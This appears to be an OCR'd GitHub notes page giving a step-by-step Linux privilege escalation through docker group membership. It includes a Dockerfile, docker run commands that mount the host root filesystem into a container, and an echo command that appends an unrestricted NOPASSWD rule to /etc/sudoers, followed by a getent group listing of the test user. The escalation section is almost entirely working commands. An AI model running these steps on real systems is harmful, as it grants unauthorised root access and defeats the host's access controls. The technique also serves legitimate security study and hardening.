 assume that we have user that has not got any permissions in "etc/sudoers" file,
but suddenly have access for docker group (set-up: sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker).

# escalation

mkdir pesc
cd pesc
nano Dockerfile
```
FROM debian:wheezy

ENV WORKDIR /pesc

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
```
docker build -t pesc . 
docker run -v /:/pesc pesc  # put root a file system into workdir, env variable of image with the same name
docker run -v /:/pesc -it pesc /bin/bash

since docker is running with root privilege inside entire file system, originally
hold by my machine, so we can go ahead and work with (etc/sudoers) on original rarget.
because we can edit this, sadly we dont have vim or any editor on docker container, we can actually echo into it
```
echo "<user> ALL=(ALL) NOPASSWD: ALL" >> /pesc/etc/sudoers
```

now in fact we are treated as a root.

# set-up enviroment

### sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker)

### getent group log:

```
$ getent group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:syslog,BillyGLW
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:BillyGLW
floppy:x:25:
tape:x:26:
sudo:x:27:BillyGLW
audio:x:29:
dip:x:30:BillyGLW
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:BillyGLW
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
systemd-journal:x:101:
systemd-network:x:102:
systemd-resolve:x:103:
input:x:104:
crontab:x:105:
syslog:x:106:
messagebus:x:107:
lxd:x:108:BillyGLW
mlocate:x:109:
uuidd:x:110:
ssh:x:111:
landscape:x:112:
BillyGLW:x:1000:
netdev:x:113:
rdma:x:114:
sambashare:x:115:BillyGLW
BillyGLW:x:1001:
docker:x:116:BillyGLW
```
